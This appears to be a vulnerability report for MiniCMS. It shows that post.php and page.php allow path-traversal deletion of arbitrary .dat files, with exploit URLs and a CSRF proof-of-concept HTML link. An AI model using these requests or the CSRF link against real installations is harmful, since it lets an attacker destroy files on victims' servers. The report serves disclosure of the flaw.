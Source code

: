 Software Link : https://github.com/bg5sbk/MiniCMS After the installation is complete, log in as administrator, open the page

In post.php, user can delete any local .dat files without filter

[![XgVxl6.png](https://s1.ax1x.com/2022/06/11/XgVxl6.png)](https://imgtu.com/i/XgVxl6)

Create 1.dat in the parent directory

[![XgZ9mD.png](https://s1.ax1x.com/2022/06/11/XgZ9mD.png)](https://imgtu.com/i/XgZ9mD)

To delete 1.dat, the url is like http://127.0.0.1:80/MiniCMS-master/mc-admin/post.php?delete=../1&state=delete&date=&tag=

Also you can delete any .dat file like local google chrome file

[![XgZPTH.png](https://s1.ax1x.com/2022/06/11/XgZPTH.png)](https://imgtu.com/i/XgZPTH)

http://127.0.0.1:80/MiniCMS-master/mc-admin/page.php?delete=../../../../../../../../opt/google/chrome/icudtl&state=delete&date=&tag=

Here is CSRF POC test.html: Log in and click the link in test.html, modify the parameter of delete and users will delete the .dat file in the specified directory at last.

```Plaintext
<a href="http://127.0.0.1:80/MiniCMS-master/mc-admin/post.php?delete=../1&state=delete&date=&tag=">click</a>
```
